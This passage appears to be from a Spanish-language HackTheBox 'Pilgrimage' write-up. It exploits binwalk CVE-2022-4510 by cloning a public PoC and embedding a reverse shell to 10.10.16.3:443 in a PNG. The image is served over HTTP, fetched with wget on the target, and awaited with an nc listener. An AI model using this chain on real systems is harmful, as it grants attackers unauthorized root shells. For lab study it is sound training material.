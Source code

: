 Nos encontramos el siguiente repositorio de GitHub en el cual nos proporcionaban un PoC y el exploit para aprovecharnos de la vulnerabilidad.

{% embed url="https://github.com/adhikara13/CVE-2022-4510-WalkingPath" %}

```bash
❯ git clone https://github.com/adhikara13/CVE-2022-4510-WalkingPath; cd CVE-2022-4510-WalkingPath
Clonando en 'CVE-2022-4510-WalkingPath'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 12 (delta 3), reused 7 (delta 2), pack-reused 0 (from 0)
Recibiendo objetos: 100% (12/12), 7.28 KiB | 7.28 MiB/s, listo.
Resolviendo deltas: 100% (3/3), listo.
```

En nuestro caso, dispondremos de una imagen normal llamada `image.png`. Utilizaremos el exploit para inyectar en la imagen una **Reverse Shell** hacía nuestro equipo remoto. Verificamos que se nos genera una nueva imagen llamada `binwalk_exploit.png` el cual compartiremos a través de un servidor web.

```bash
❯ ls -l
.rw-rw-r-- kali kali 173 KB Tue Feb 18 01:42:15 2025  image.png
.rw-rw-r-- kali kali 6.9 KB Tue Feb 18 01:40:25 2025  LICENSE
.rw-rw-r-- kali kali 1.5 KB Tue Feb 18 01:40:25 2025  README.md
.rw-rw-r-- kali kali 3.3 KB Tue Feb 18 01:40:25 2025  walkingpath.py

❯ python3 walkingpath.py reverse image.png 10.10.16.3 443

❯ ls -l
.rw-rw-r-- kali kali 174 KB Tue Feb 18 01:42:36 2025  binwalk_exploit.png
.rw-rw-r-- kali kali 173 KB Tue Feb 18 01:42:15 2025  image.png
.rw-rw-r-- kali kali 6.9 KB Tue Feb 18 01:40:25 2025  LICENSE
.rw-rw-r-- kali kali 1.5 KB Tue Feb 18 01:40:25 2025  README.md
.rw-rw-r-- kali kali 3.3 KB Tue Feb 18 01:40:25 2025  walkingpath.py

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Por otro lado, nos pondremos en escucha con `nc` para recibir la conexión.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Desde el equipo comprometido, nos dirigiremos al directorio `/var/www/pilgrimage.htb/shrunk` para descargar la imagen maliciosa que estamos compartiendo desde nuestro servidor. Si todo funciona correctamente y el script que ejecuta `root` detecta este nuevo archivo, será analizado por el binario de `binwalk` y al ser una versión vulnerable, nos deberá proporcionar la Reverse Shell.

```bash
emily@pilgrimage:~$ cd /var/www/pilgrimage.htb/shrunk/

emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ wget 10.10.16.3/binwalk_exploit.png
--2025-02-18 11:48:42--  http://10.10.16.3/binwalk_exploit.png
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 178080 (174K) [image/png]
Saving to: ‘binwalk_exploit.png’

binwalk_expl 100% 173.91K   637KB/s    in 0.3s     

2025-02-18 11:48:43 (637 KB/s) - ‘binwalk_exploit.png’ saved [178080/178080]

emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ ls -l
total 556
```
